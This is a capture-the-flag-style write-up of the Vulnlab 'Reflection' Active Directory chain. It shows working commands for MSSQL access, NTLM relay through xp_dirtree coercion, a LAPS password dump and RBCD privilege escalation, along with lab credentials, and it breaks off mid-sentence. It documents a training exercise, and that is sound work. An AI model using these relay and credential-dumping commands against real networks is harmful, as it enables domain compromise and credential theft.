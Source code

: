 ```yaml
---
title: Vulnlab - Reflection
date: 2024-02-05
categories: [Vulnlab]
tags: [Vulnlab, AD]
pin: false
---
```


## Vulnlab - Reflection
This is another chain from Vulnlab which goes into MSSQL exploitation, relaying and Resource-based Constrained Delegation (RBCD) abuse.


## Targets
Upon starting the box I added the following information into my hosts file.
```
10.10.153.213 reflection.vl
10.10.153.213 dc01.reflection.vl
10.10.153.214 ms01.reflection.vl
10.10.153.215 ws01.reflection.vl
```

## Scan dc.reflection.vl
```
PORT     STATE    SERVICE       VERSION
53/tcp   open     domain        Simple DNS Plus
88/tcp   open     kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-02 12:11:03Z)
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open     microsoft-ds?
464/tcp  open     kpasswd5?
593/tcp  open     ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open     tcpwrapped
1433/tcp open     ms-sql-s      Microsoft SQL Server 2019 15.00.2000
3268/tcp open     ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5985/tcp open     http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
6039/tcp filtered x11
9389/tcp open     adws?
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ms01.reflection.vl
```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

## Scan ws01.reflection.vl
```

```

## SMB enumeration - MS01
After some SMB enumeration I figured out that the MS01 machine has an accessible share called 'staging'.
![_install](/assets/img/VL-Reflection/smbclient.png)
When accessing the share we can see that it contains a file called "staging_db.conf" which when viewed contains a set of credentials for a database called "staging":
![_install](/assets/img/VL-Reflection/smbclient2.png)

## MSSQL enumeration - MS01
Using netexec I tried the credentials that I found on the  share. This revealed that we can use it on the MSSQL database on MS01.
![_install](/assets/img/VL-Reflection/nxc_mssql.png)
Let access mssql service using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_staging':'Washroom510'@10.10.220.54
```
This results in us getting acccess on the MSSQL server on MS01 as the local user web_staging:
![_install](/assets/img/VL-Reflection/mssqlclient1.png)

## MSSQL UNC Path Injection Relay - MS01
I tried some basic privilege escalation techniques such as enabling xp_cmdshell which ultimatly resultated in nothing. One thing I noticed during enumeration is that the DC doesn't have SMB Signing enabled. I found this very odd and thought we might have to relay some kind of authentication request. An attack that I've done quite a few time on client assessments is using UNC Path Injection using the xp_dirtree stored procedure and relay the authentication to other machines in the domain.

First let's check if we can coerce authentication using xp_dirtree to our attacker machine:
![_install](/assets/img/VL-Reflection/xp_dirtree.png)
We see that we successfully receieve an incoming connection on our SMB server from the Domain User svc_web_staging. I also tried to crack the hash, however this didn't do well. Lets setup ntlmrelayx from impacket to relay to authentication:
```bash
ntlmrelayx.py -tf ips.txt -socks -smb2support -debug
```
I used the -tf and -socks option to relay the authentication to all computers and create a socks5 proxy which I can use my tools through. After triggering the coercion we can see that we have an active connection to DC and WS01 


## Active Directory Enumeration
Now that we have an active Socks5 SMB connection to the DC and WS01 we can perform some AD enumeration. First let's see if we can find something of interest on the SMB shares using smbclient.py from the impacket toolkit:
```bash
proxychains smbclient.py REFLECTION/SVC_WEB_STAGING:'fakepass'@10.10.153.213
```
We can check if there are any shares which we can access. In this case we can access the "prod" share which contains a file called"prod_db.conf". We already had staging credentials to the MSSQL database, now lets try to validate if we have access to another MSSQL database using netexec:
```bash
nxc mssql ips.txt -u web_prod -p Tribesman201 --local-auth
```
Netexec tells us that the credentials are valid on the DC, let's login again using mssqlclient.py from impacket:
```bash
python3 mssqlclient.py ./'web_prod':'Tribesman201'@10.10.153.213
```
And once again we have access to the prod database. After some quick enumeration I found the users table which contain two sets of credentials:
![_install](/assets/img/VL-Reflection/initial_ad_creds.png)

I put the credentials into two seperate files called "users.txt" and "pass.txt" and checked if the credentials are valid using netexec:

Now that we have valid AD credentials we can enumerate the AD environment. Lets start by kicking of the BloodHound.py remote ingestor:
```bash
python3 bloodhound.py -d reflection.vl -v --zip -c All -dc reflection.vl -ns 10.10.153.213 -u dorothy.rose -p 'hC_fny3OK9glSJ'
```
After running the script we can load the zip file into BloodHound and perform some enumeration. I quickly noticed that the user "abbie.smith" has GenericAll right on the MS01 machine which allows us to add the ms-DSAllowedToActOnBehalfOfOtherIdentity attribute. This allows us to perform an RBCD attack on the Domain thus allowing us to elevate privileges. Sadly I quickly realized that his was not possible since the MachineAccountQuota was set to 0.
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M MAQ
```
![_install](/assets/img/VL-Reflection/maq.png)

Upon enumerating the MS01 machine I noticted that it has LAPS enabled. 
![_install](/assets/img/VL-Reflection/LAPS.png)
Since we have GenericAll permissions on the computer this allows us the retrieve the Local Admininistrator Password of the MS01 computer. Using netexec I was able to dump the LAPS password of the computer:
```bash
nxc ldap 10.10.153.213 -u abbie.smith -p 'CMe1x+nlRaaWEw' -M laps
```
![_install](/assets/img/VL-Reflection/laps_dump.png)



## Resource Based Constrained Delegation

Dumped the password of Gerogia.price which has genericall on WS01. We get get hash of WS01 and perform RBCD. First run secretsdump.py and add RBCD using rbcd.py from impacket.

Then impersonate the administrator on the domain while request a silver ticket using getST.py from again impacket for the CIFS service.

NExt we import the kerberos ticket in memory and secretsdump the WS01 computer. This reveals the password of Rhys.Garner, however we don't need his password since we already have Domain Admin access. Let's try to 
